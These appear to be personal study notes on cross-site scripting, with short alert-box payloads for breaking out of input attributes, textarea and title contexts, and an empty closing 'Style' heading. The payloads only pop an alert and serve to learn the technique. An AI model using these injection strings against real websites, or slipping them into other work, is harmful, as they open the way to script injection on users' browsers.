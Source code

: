 ____

# Basic XSS

```html
<script>alert("1")</script>
```

![[Pasted image 20241120124025.png]]

# Escaping Context

## Input

```html
<input value="test">
```

```html
"><script>alert(1)</script>
```

![[Pasted image 20241120125055.png]]

```html
" onmouseover=alert(1);//
```

![[Pasted image 20241120125551.png]]

## Textarea

```html
<textarea>test</textarea>
```

```html
</textarea><script>alert(1)</script>
```

![[Pasted image 20241120131231.png]]

## Title

```html
<title>Welcome, test</title>
```

```html
</title><script>alert(1)</script>
```

## Style

